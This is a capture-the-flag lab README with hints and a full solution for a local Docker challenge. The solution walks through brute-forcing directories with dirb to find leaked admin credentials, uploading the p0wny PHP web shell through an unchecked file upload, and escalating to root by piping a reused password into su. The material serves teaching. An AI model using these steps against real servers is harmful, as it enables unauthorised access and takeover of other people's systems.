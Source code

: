 - [Challenge Overview](#challenge-overview)
- [Getting started](#getting-started)
- [Hints](#hints)
  - [Flag 1](#flag-1)
  - [Flag 2](#flag-2)
  - [Flag 3](#flag-3)
- [Solution](#solution)
  - [Flag 1](#flag-1-1)
  - [Flag 2](#flag-2-1)
  - [Flag 3](#flag-3-1)
- [More Studies](#more-studies)
  - [Reverse Shell scripts](#reverse-shell-scripts)
  - [Brute force tools](#brute-force-tools)


# Challenge Overview
This CTF Challenge was created as part of the Project Management course. It contains 3 flags and it is all about getting access one step at a time!

This challenge can be difficult for a student, so don't worry if you can't get it done. Also, don't forget to check the hints if you are struggling at some point.

# Getting started
First, download the challenge container.
```
docker pull ghcr.io/dbh201/challenge4:latest
```
Now, launch the container.
```
docker run -p 4443:4443 ghcr.io/dbh201/challenge4:latest
```
Access the website https://localhost:4443 and good luck!

At some point, you will use a reverse shell script in this challenge. If you are not familiar with them, we recommend one as a hint, so don't worry about it.

Also, Kali is not mandatory but recommended, since it has plenty of pre-installed tools that could be useful for this and other challenges. 

# Hints
## Flag 1
Can you get all 3 flags? Let's start by navigating to pages you are not supposed to see.
Wonder what kind of information you can find in there

<details>
    <summary>Hint 1</summary>
    Try navigating to a different directory
</details>

<details>
    <summary>Hint 2</summary>
    Some names are very common across different applications
</details>

<details>
    <summary>Hint 3</summary>
    Alright! Let's bruteforce! Kali has some cool pre-installed Web Crawlers & Directory bruteforces.
</details>

## Flag 2
How much can you do with your new admin account? There must be some way to control the forum.

<details>
    <summary>Hint 1</summary>
    You can definitely do a lot from the admin control panel!
</details>

<details>
    <summary>Hint 2</summary>
    Isn't it cool that you can even upload any file you want?
</details>

<details>
    <summary>Hint 3</summary>
    Some scripts (files) can even give you access to the system, just like magic.
</details>

<details>
    <summary>Hint 4</summary>
    give "p0wny" a try x)
</details>

## Flag 3
Now it's time to escalate...
You need to become root using your p0wny shell, but you can't seem to type in your password...


<details>
    <summary>Hint 1</summary>
    sudo will not work, so let's try switching user.
</details>

<details>
    <summary>Hint 2</summary>
    Can you believe some people reutilize their passwords?! Crazy, right?
</details>

<details>
    <summary>Hint 3</summary>
    It's all about the one-liners these days, isn't it?
</details>


# Solution
## Flag 1
Since we are supposed to look for pages that should be unacessible, we could try a few common names such as "/admin". However, some tools can do their job for us.

Dirb is a fantastic tool for that, and it is already installed in Kali. We can simply run it on our server (make sure you change the IP to match yours).
```bash
┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.0.5:4443

...hidden output

---- Scanning URL: https://192.168.0.5:4443/ ---- 
    ==> DIRECTORY: https://192.168.0.5:4443/adm/
    ==> DIRECTORY: https://192.168.0.5:4443/data/
    ==> DIRECTORY: https://192.168.0.5:4443/images/
    + https://192.168.0.5:4443/index.php (CODE:200|SIZE:17810)   

...hidden output
```
After checking some of the results, we will eventually find the /data directory, that contains some interest files such as "flag1.txt". 

![/data files](/images/IMG1.png?raw=true)

<details>
    <summary>By checking "flag1.txt" content we will find the first flag!</summary>
    <pre><code>
    flag1: Pr0Jmngmnt15c00l

    User: admin
    Password: thispasswordishuge!

    You got the flag! What a place for a password to be, right? :P
    How much can you do with your new admin account? There must be some way to control the forum. 
</code></pre>

</details>


## Flag 2
Now that we have admin credentials, let's see what we can do with that.

First, login with your recently "stolen" credentials! Hey, they shouldn't keep it on a text file!

Exploring some of the buttons on the forum, we will eventually come across "Administration", which will take us to the Admin Control Panel.

![/Administration button location](/images/IMG2.png?raw=true)

More exploring! After checking some of the links on the Admin Control Panel, we will eventually find the "File Administration System", where we can see, download, and - most important - upload some files.

![/Admin Control Panel home page](/images/IMG3.png?raw=true)

Good for us, this forum doesn't even check what files are being uploaded, so we are going to import a script!

Some scripts can grant you access to the system, and although programming one from scratch can be done, we will simply use an already-working solution.

p0wny is a php script that will allow you to get access to the server's terminal, check it out: https://github.com/flozz/p0wny-shell

The only file we will need is "shell.php". Let's upload it and then navigate to it. Don't forget to match your IP address, port, and file name. 

```
https://192.168.0.5:4443/shell.php
```

We now have access to the server's terminal as nginx's user.

![/p0wny's terminal](/images/IMG4.png?raw=true)

Unfortunely, we can't really find the flag here, so we need to navigate on the system. Changing our directory to www-data's home directory, then listing the files there, we will see flag2.txt.

```
cd
ls
cat flag2.txt
```

<details>
    <summary>Let's see what's inside of it</summary>
    <pre><code>
    flag2: BforBodyNotBook-ofKnowledge

    You got the flag! Now it's time to escalate...

    You need to become root using your p0wny shell, but you can't seem to type in your password...
</code></pre>

</details>

## Flag 3
Let's try escalating then! Why not starting with `sudo`?

```
www-data@fc1b13fe1365:/var/www# sudo ls /root
sh: 1: sudo: not found
```

Unfortunetely, `sudo` doesn't seem to work. How about we simply try to switch user with `su`?

```
www-data@fc1b13fe1365:/var/www# su 
Password: su: Authentication failure
```

Although `su` worked, the terminal doesn't prompt us for the password, maybe there is a way to provide that password in a one-liner?

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root
Password:
www-data@fc1b13fe1365:/var/www#
```

So this time we got no `Authentication failure`, so lucky us that the owner of this system decided to reuse his password. But if you check the user, it is still the same. Let's see if we can pass any command to that user.

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls"
Password: flag3.txt
```

The prompt is definitely a bit weird, but we just listed items on root. Let's also read it with `cat`!

```
www-data@fc1b13fe1365:/var/www# echo "thispasswordishuge!" | su - root -c "ls; cat flag3.txt"
Password: flag3.txt
flag3: plzM477letU5pass

You got the last flag! Wasn't that easy?
```

Hope you enjoyed this challenge as much as we did!


# More Studies
If you want to go deeper into what you practiced in this Challenge, check some recommendations.

## Reverse Shell scripts
A reverse shell script was used in this challenge to gain access to the target machine. Although it was used to simulate an attack, these scripts can be used with no ill intentions.

Besides that, reverse shell scripts can be programmed in different languages, and even customized to your own project. Check some by yourself!

## Brute force tools
Bruteforce is a well known strategy that consists in trying over and over different combinations until you get the right one.

Although we use a directory brute force in this Challenge, there are many other types of brute force tools, the most common being password crackers. But also give it a try to explore other tools that interact with DNS and even biometrics. 

